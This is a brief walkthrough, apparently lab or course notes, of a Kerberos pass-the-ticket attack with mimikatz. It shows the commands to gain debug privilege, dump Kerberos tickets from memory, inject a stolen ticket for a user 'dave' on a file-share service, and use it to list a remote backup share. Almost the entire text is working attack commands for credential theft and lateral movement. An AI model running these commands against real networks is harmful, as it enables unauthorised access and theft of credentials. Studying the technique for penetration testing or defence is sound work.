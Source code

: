 
1) Load mimikatz  
```powershell
.\mimikatz.exe  
```
  
2)  Get debug privilege and export tickets to disk 
```powershell
privilege::debug  
sekurlsa::tickets /export
```
  
3) Search the directory you exported and find a ticket to use
```powershell
dir *.kirbi
```
  
4)  Pass that ticket to mimikatz 
```
kerberos::ptt [0;14445c]-0-0-40810000-dave@cifs-web04.kirbi  
```

5) Make sure the ticket is in klist 
```
klist
```
  
6) Use the ticket.
```powershell
misc::cmd  
ls \\web04\backup
```